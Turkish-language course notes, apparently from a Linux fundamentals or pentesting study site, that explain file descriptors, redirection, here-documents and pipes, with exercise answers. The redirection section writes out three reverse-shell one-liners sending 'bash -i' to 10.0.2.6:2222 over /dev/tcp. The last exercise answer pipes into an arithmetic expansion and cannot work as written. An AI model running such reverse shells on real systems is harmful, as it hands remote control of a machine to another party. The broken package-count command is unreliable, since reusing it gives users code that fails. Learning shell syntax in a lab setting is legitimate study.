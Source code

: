 ```yaml
---
glightbox: true
icon: material/help
---
```


# File Descriptors and Redirections

## File Descriptors

| Name | Value | Description |
|---|---|---|
| STDIN | 0 | Girdiler için kullanılan veri akışı. |
| STDOUT | 1 | Çıktılar için kullanılan veri akışı. |
| STDERR | 2 | Hata çıktıları için kullanılan veri akışı. |

## STDOUT and STDERR

Bir komutun çalışması esnasında üretebileceği hatalar Null Device konumuna yeniden yönlendirilerek göz ardı edilebilir:

```bash
find /etc -name shadow 2> /dev/null
```

Aşağıda verilen komut ile STDERR ve STDOUT, açılacak olan IP adresi ve port hedefine yeniden yönlendirilmiştir:

```bash
bash -i > /dev/tcp/10.0.2.6/2222 2>&1
```

Yukarıdaki yeniden yönlendirme farklı şekillerde de ifade edilebilir. Bunlardan biri aşağıda verildiği gibidir:

```bash
bash -i &>/dev/tcp/10.0.2.6/2222
```

Diğeri ise aşağıda verildiği gibidir:

```bash
bash -i >&/dev/tcp/10.0.2.6/2222
```

İlk verilen kullanım şekli, önerilen kullanım şeklidir.

## Redirect STDOUT and STDERR to Separate Files

Bir komutun ürettiği çıktılardan STDOUT akışı bir dosyaya, STDERR akışı ise başka bir dosyaya yeniden yönlendirilebilir:

```bash
find /etc -name shadow 2>stderr.txt 1>stdout.txt
```

## Redirect STDIN

Yeniden yönlendirme işlemi STDIN akışı için de yapılabilir. Bunun için farklı olarak `>` işareti yerine `<` işareti kullanılır. Örneğin `stdout.txt` dosyasına kaydedilen veriler `cat` aracına girdi olarak verilebilir:

```bash
cat 0<stdout.txt
```

## Redirect STDOUT and Append to a File

Eğer `>` işareti ile yeniden yönlendirme yapılırsa yeni bilgiler eski bilgilerin üzerine yazılır. Bunu önlemek için `>>` işareti kullanılabilir. Böylece yeni bilgiler eski bilgilerle birlikte tutulur:

```bash
find /etc -name shadow 2>stderr.txt 1>>stdout.txt
```

## Redirect STDIN Stream to a File

Eğer `<<` işareti kullanılırsa kullanıcı girdisi akışa eklenebilir. Girdinin ne zaman biteceğinin algılanması için bir anahtar kelime de (örneğin EOF) verilmelidir. Bu tarz bir yeniden yönlendirme [Here Documents](https://www.gnu.org/software/bash/manual/bash.html#Here-Documents) formatıdır:

```bash
cat << EOF > stream.txt
```

## Pipes

STDOUT akışını yeniden yönlendirmenin başka bir yolu da Pipe kullanmaktır. Aşağıdaki komutta örnek bir Pipe kullanımı gösterilmiştir:

```bash
find /etc -name "*.conf" 2> /dev/null | grep systemd
```

## Questions

```text
How many files exist on the system that have the ".log" file extension?
```

??? tip "Steps"

    ```bash
    find / -name "*.log" -type f 2> /dev/null | wc -l
    ```

```text
How many total packages are installed on the target system?
```

??? tip "Steps"

    Aşağıda verilen komut ile elde edilen sayının 1 eksiği alındı. Çünkü komut çıktısının ilk satırı, bilgi satırıdır:

    ```bash
    apt list --installed 2> /dev/null | $(($(wc -l) - 1))
    ```
